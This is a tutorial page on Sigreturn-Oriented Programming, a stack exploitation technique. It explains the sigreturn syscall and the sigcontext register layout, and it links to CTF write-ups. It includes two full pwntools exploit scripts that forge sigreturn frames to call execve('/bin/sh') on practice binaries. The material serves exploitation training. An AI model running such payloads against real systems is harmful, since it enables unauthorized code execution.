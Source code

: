 # SROP - Sigreturn-Oriented Programming


## Basic Information

**`Sigreturn`** is a special **syscall** that's primarily used to clean up after a signal handler has completed its execution. Signals are interruptions sent to a program by the operating system, often to indicate that some exceptional situation has occurred. When a program receives a signal, it temporarily pauses its current work to handle the signal with a **signal handler**, a special function designed to deal with signals.

After the signal handler finishes, the program needs to **resume its previous state** as if nothing happened. This is where **`sigreturn`** comes into play. It helps the program to **return from the signal handler** and restores the program's state by cleaning up the stack frame (the section of memory that stores function calls and local variables) that was used by the signal handler.

The interesting part is how **`sigreturn`** restores the program's state: it does so by storing **all the CPU's register values on the stack.** When the signal is no longer blocked, **`sigreturn` pops these values off the stack**, effectively resetting the CPU's registers to their state before the signal was handled. This includes the stack pointer register (RSP), which points to the current top of the stack.

> [!CAUTION]
> Calling the syscall **`sigreturn`** from a ROP chain and **adding the registry values** we would like it to load in the **stack** it's possible to **control** all the register values and therefore **call** for example the syscall `execve` with `/bin/sh`.

Note how this would be a **type of Ret2syscall** that makes much easier to control params to call other Ret2syscalls:

[[../rop-syscall-execv/]]

If you are curious this is the **sigcontext structure** stored in the stack to later recover the values (diagram from [[https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html)|**here**]]:

```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
```
For a better explanation check also:

[[https://youtu.be/ADULSwnQs-s?feature=shared]]

## Example

You can [[https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop|**find an example here**]] where the call to signeturn is constructed via ROP (putting in rxa the value `0xf`), although this is the final exploit from there:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
```
Check also the [[https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html|**exploit from here**]] where the binary was already calling `sigreturn` and therefore it's not needed to build that with a **ROP**:

```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
```
## Other Examples & References

- [[https://youtu.be/ADULSwnQs-s?feature=shared|https://youtu.be/ADULSwnQs-s?feature=shared]]
- [[https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop|https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop]]
- [[https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html|https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html]]
  - Assembly binary that allows to **write to the stack** and then calls the **`sigreturn`** syscall. It's possible to write on the stack a [[../rop-syscall-execv/index.html|**ret2syscall**]] via a **sigreturn** structure and read the flag which is inside the memory of the binary.
- [[https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html|https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html]]
  - Assembly binary that allows to **write to the stack** and then calls the **`sigreturn`** syscall. It's possible to write on the stack a [[../rop-syscall-execv/index.html|**ret2syscall**]] via a **sigreturn** structure (the binary has the string `/bin/sh`).
- [[https://guyinatuxedo.github.io/16-srop/inctf17_stupidrop/index.html|https://guyinatuxedo.github.io/16-srop/inctf17_stupidrop/index.html]]
  - 64 bits, no relro, no canary, nx, no pie. Simple buffer overflow abusing `gets` function with lack of gadgets that performs a [[../rop-syscall-execv/index.html|**ret2syscall**]]. The ROP chain writes `/bin/sh` in the `.bss` by calling gets again, it abuses the **`alarm`** function to set eax to `0xf` to call a **SROP** and execute a shell.
- [[https://guyinatuxedo.github.io/16-srop/swamp19_syscaller/index.html|https://guyinatuxedo.github.io/16-srop/swamp19_syscaller/index.html]]
  - 64 bits assembly program, no relro, no canary, nx, no pie. The flow allows to write in the stack, control several registers, and call a syscall and then it calls `exit`. The selected syscall is a `sigreturn` that will set registries and move `eip` to call a previous syscall instruction and run `memprotect` to set the binary space to `rwx` and set the ESP in the binary space. Following the flow, the program will call read intro ESP again, but in this case ESP will be pointing to the next intruction so passing a shellcode will write it as the next instruction and execute it.
- [[https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection|https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection]]
  - SROP is used to give execution privileges (memprotect) to the place where a shellcode was placed.

